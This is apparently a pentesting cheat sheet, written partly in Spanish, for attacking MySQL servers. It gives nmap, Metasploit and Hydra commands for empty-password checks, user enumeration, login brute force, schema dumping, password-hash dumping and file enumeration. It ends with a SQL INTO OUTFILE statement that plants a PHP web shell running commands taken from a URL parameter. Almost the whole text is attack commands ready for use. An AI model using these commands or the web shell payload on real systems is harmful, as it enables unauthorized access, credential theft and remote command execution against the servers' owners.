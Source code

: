 ## Check Empty Password
```nmap
nmap --script=mysql-empty-password -p 3306 IP
```	
## Enumeración de usuarios
### Nmap
```
nmap --script=mysql-users --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```	
## Login Bruteforce
### Metasploit 
```
use auxiliary/scanner/mysql/mysql_login
```
### Hydra
```
hydra -L USERLIST  -P PASSLIST IP mysql
```

## Ver database schema
### Nmap
```
nmap --script=mysql-databases --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```
### Metasploit 
```
auxiliary/scanner/mysql/mysql_schemadump
```
## POST
### Hashdump
#### Metasploit
```
auxiliary/scanner/mysql/mysql_hashdump
```
#### Nmap Script
```
nmap --script mysql-dump-hashes --script-args="mysqluser='VALIDUSER',mysqlpass='VALIDPASS'" -p 3306 IP
```		
### Writable directories list
```
auxiliary/scanner/mysql/mysql_writable_dirs
```
### Readable files list
```
auxiliary/scanner/mysql/mysql_file_enum
```

### SQL TO WEB SHELL
```SQL
SELECT '<?php echo passthru($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
